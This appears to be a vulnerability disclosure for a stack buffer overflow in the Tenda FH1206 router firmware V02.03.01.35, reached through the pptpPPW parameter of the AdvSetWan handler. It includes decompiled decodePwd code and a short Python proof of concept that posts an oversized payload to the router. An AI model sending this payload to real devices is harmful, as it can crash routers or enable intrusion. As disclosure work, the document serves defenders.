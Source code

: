 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `wanmode`  parameter from a POST request. Within `case 3`, this function accepts the `pptpPPW` parameter from a POST request, which is assigned to `decodePwd(v11, v52);`. However, since the user has control over the input of `pptpPPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `pptpPPW` can exceed the capacity of the `v52` array, thus triggering this security vulnerability.

![image-20240802202733291](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802202733291.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AdvSetWan"
payload = b"a"*1000

data = {"wanmode":"3","pptpPPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)